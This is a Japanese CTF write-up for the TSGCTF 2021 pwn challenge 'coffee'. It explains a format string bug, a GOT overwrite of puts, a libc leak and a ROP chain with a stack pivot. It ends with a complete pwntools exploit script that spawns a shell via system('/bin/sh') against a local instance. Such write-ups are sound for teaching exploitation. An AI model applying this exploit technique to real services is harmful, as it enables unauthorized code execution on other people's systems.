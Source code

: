 +++
title = "TSGCTF 2021 - coffee"
date = 2022-06-14

[taxonomies]
tags = ["CTF", "Writeup", "Pwn", "ROP", "FSB", "stack pivot"]
+++

- 問題ファイル: [tsgctf2021/pwn/coffee/dist at main · tsg-ut/tsgctf2021](https://github.com/tsg-ut/tsgctf2021/tree/main/pwn/coffee/dist)

## TL;DR

## Prerequisite

- Stack Pivot

## Writeup

次のC言語のコードをコンパイルしたバイナリが動いている

```c
#include <stdio.h>

int x = 0xc0ffee;
int main(void) {
    char buf[160];
    scanf("%159s", buf);
    if (x == 0xc0ffee) {
        printf(buf);
        x = 0;
    }
    puts("bye");
}

```

checksecした結果は次の通り

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

自明なFSBがある上にPartial RELROなのでGOT Overwriteが出来る。やってくれと言わんばかりに`puts`が真下にあるのでこいつのGOTを書き換える。

問題はどのアドレスに書き換えるかである。仮にlibc leakが出来たとしてもその値をまたどこかに書き込まなくてはならないので`main`に戻る等で再度なんらかの入力関数を呼び出さないといけない。しかし、`main`に戻ったところで`if (x == 0xc0ffee)`のせいで再度FSBを利用する事は出来ず、事前の`scanf`も`buf`にしか書き込めないので特に意味のあることはできそうにない。

`puts`のGOTに書かれたアドレスが呼ばれる時、スタックは`main`のものとほとんど同じはずなので`buf`にROPチェーンを書いておけばROPが出来るような予感がする。

但し、`buf`の先頭にはFSB用のペイロードをおいておかなくてはならないので、ROPには使えず、起点となる`puts`のGOTに書き込むガジェットとして`pop`や`add rsp`でスタックの最初の方を無視できるようなガジェットが必要である。大量にpopするガジェットと言えば`__libc_csu_init`内にある`pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret`があり、更にこの上は`add rsp,0x8`があるので結構なサイズのスタックを飛ばして`rsp`を大きくすることが出来る。

ところでFSBがあることから`%s`を利用してアドレスの中身を見ることも出来る。`printf`が呼ばれるタイミングで既に`scanf`は呼ばれていることからここのGOTにはlibc中のアドレスが存在する。よって書き込みと同時に読み出しも行えば、libc leakとGOT Overwriteの両方が同時に出来る。

GDBでスタックの様子を覗いたりした結果、ペイロードの構造は次のようになった。

```python
   f"%{offset+2}$s"                    # libc leak用
 + f"%{0x86 - 6}c%{offset}$lln"        # putsのGOT書き換え用 (1バイト目)
 + f"%{0x4012 - 0x86}c%{offset+1}$hn"  # putsのGOT書き換え用 (2バイト目と3バイト目)
 + ROP
 + p64(addrs["puts_got"])              # FSBでガジェットを書き込む
 + p64(addrs["puts_got"] + 1)          # FSBでガジェットを書き込む
 + p64(addrs["scanf_got"])             # FSBで読み出し
```

処理の順序は「FSBのペイロードを送る -> `printf`でFSB発火 -> libc leak -> ROPチェーン発動」となっている。よって、ROPチェーン中で`scanf`を実行すればリークしたlibcのアドレスを使って`system`のアドレスをなんらかのGOTに書き込むといったことが出来る(なお、ネタバレをするとこれはあらゆる理由で断念した)。

ROPチェーン中で`scanf`を利用するために、フォーマット文字列を用意する必要があるが、コードで使われている`%159s`を利用しようとするとここのアドレスに`0x20`が含まれてしまうせいで最初に`scanf`でペイロードを送り込む際にここで止まってしまう。というわけで冒頭のFSBでwritableな領域にフォーマット文字列を用意しておく必要がある。これでFSBのペイロードは次のように修正された。

```python
   f"%{offset+2}$s"                        # libc leak用
 + f"%{0x86 - 6}c%{offset}$lln"            # putsのGOT書き換え用 (1バイト目)
 + f"%{0x4012 - 0x86}c%{offset+1}$hn"      # putsのGOT書き換え用 (2バイト目と3バイト目)
 + f"%{fmt_scanf - 0x4012}c%{offset+3}$hn" # バイナリに"%s"を書き込む用
 + ROP
 + p64(addrs["puts_got"])                  # FSBでガジェットを書き込む
 + p64(addrs["puts_got"] + 1)              # FSBでガジェットを書き込む
 + p64(addrs["scanf_got"])                 # FSBで読み出し
 + p64(addrs["bss"])                       # FSBで"%s"を書き込む
```

というわけで`scanf`を使って`puts`のGOTをlibc中の`system`のアドレスに書き換え、ROPチェーンの最後で`puts("/bin/sh")`をしてシェルを取ろうとしたのだが、`scanf`も`system`もSIMD命令を使う都合上、スタックのアライメントを`ret`ガジェットで調整する必要がある。更に`rsi`にpopするガジェットが同時に`r15`にもpopするため、余分な値をスタックに入れておかなくてはならない。これらの理由によってROPチェーンは長くなり、上手くやろうとすると入力制限である159バイトを超えてしまう。

ROPとFSBでコードゴルフはしたくなかったので、ROPチェーン中の`scanf`で任意アドレスへの書き込みが出来る事を利用し、writableな領域を偽のスタックとしてROPチェーンの続きを書き込んでStack Pivotを行うことにした。

## Code

```python
from pwn import process, remote, ELF, p64, u64
from Crypto.Util.number import bytes_to_long

def dict_hexdump(d):
    for k, addr in d.items():
        print(f"{k}: {hex(addr)}")


binary_path = "./coffee"
libc_path = "./libc.so.6"
elf = ELF(binary_path)
libc = ELF(libc_path)

addrs = {
    "puts_got": elf.got["puts"],
    "puts_plt": elf.plt["puts"],
    "scanf_plt": elf.plt["__isoc99_scanf"],
    "scanf_got": elf.got["__isoc99_scanf"],
    "fmt_scanf": next(elf.search(b"%159s")),
    "bss": 0x40404c,
    "scanf_libc": libc.symbols["__isoc99_scanf"],
    "system_libc": libc.symbols["system"],
    "execve_libc": libc.symbols["execve"],
    "one_gadget": 0xe6e79,
    "pivot": 0x404800
}

rop_gadgets = {
    "add_rsp_8_pop_6": 0x401286,
    "pop_rdi": 0x401293,
    "pop_rsi_r15": 0x401291,
    "ret": 0x40101a,
    "leave": 0x40121f,
    "pop_rbp": 0x40117d
}

fsb_addrs = p64(addrs["puts_got"]) + p64(addrs["puts_got"] + 1) + p64(addrs["scanf_got"]) + p64(addrs["bss"])

dict_hexdump(addrs)

print("[+] Exploit")
# exploit
# sc = process([binary_path])
sc = remote("localhost", 13337)

fmt_scanf = u64(b"%s" + b"\x00" * 6)
offset = 22
payload = f"%{offset+2}$s%{0x86 - 6}c%{offset}$lln%{0x4012 - 0x86}c%{offset+1}$hn%{fmt_scanf - 0x4012}c%{offset+3}$hn".encode()
current_length = len(payload)
payload += b"\x00" * (8 - current_length % 8)
payload += p64(rop_gadgets["pop_rdi"])  # 12
payload += p64(addrs["bss"])  # 13
payload += p64(rop_gadgets["pop_rsi_r15"]) # 14
payload += p64(addrs["pivot"]) # 15
payload += p64(0)  # 16
payload += p64(rop_gadgets["ret"]) # 17
payload += p64(addrs["scanf_plt"])  # 18
payload += p64(rop_gadgets["pop_rbp"])  # 19
payload += p64(addrs["pivot"])  # 20
payload += p64(rop_gadgets["leave"])  # 21

payload += fsb_addrs

payload = payload[:-2]  # for limit of payload length

print(len(payload), payload)

sc.sendline(payload)
res = u64(sc.recv(6) + b"\x00\x00")
libc_leak = res - addrs["scanf_libc"]
print(hex(libc_leak))

# input("[+] Attaching")

system_libc = libc_leak + addrs["system_libc"]
binsh_libc = libc_leak + next(libc.search(b"/bin/sh"))

# fake stack
payload2 = p64(addrs["pivot"] + 0x300)  # for pop rbp in leave and writable address
payload2 += p64(rop_gadgets["pop_rdi"])
payload2 += p64(binsh_libc)
payload2 += p64(rop_gadgets["ret"])
payload2 += p64(system_libc)

sc.sendline(payload2)

sc.interactive()
```

## Flag

ローカルでシェル取っただけ

